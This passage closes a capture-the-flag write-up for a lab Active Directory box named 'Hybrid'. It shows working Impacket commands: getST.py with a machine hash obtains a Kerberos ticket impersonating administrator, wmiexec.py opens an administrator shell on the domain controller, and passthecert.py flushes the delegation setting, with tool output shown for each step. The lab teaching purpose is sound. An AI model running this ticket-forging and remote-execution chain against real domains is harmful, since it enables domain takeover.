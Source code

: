 Request a ticket.
```
getST.py -spn 'cifs/dc01' -impersonate administrator -dc-ip '10.10.215.165' 'hybrid.vl/mail01$' -hashes :0f916c5246fdbc7ba95dcef4126d57bd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc01@HYBRID.VL.ccache

```

login with wmiexec:
```
KRB5CCNAME=$(pwd)/administrator@cifs_dc01@HYBRID.VL.ccache wmiexec.py -k -no-pass administrator@dc01
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used

[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
dc01
C:\>whoami
hybrid\administrator
```

TaDa!

# Beyond Root

Overall a really nice box, there a two things that I would like to change tho,

1. Remove RBCD
2. Request a TGT then HOST and CIFS Service Tickets before authing to wmiexec.

Both these are easy to do.

To remove RBCD I found out you can just specify `flush_rbcd` in passthecert
```
python3 passthecert.py -action flush_rbcd -crt dc.crt -key dc.key -domain hybrid.vl -dc-ip 10.10.215.165 -delegate-to 'DC01$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Accounts allowed to act on behalf of other identity:
[*]     MAIL01$      (S-1-5-21-3436099999-75120703-3673112333-1103)
[*] Delegation rights flushed successfully!
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
```
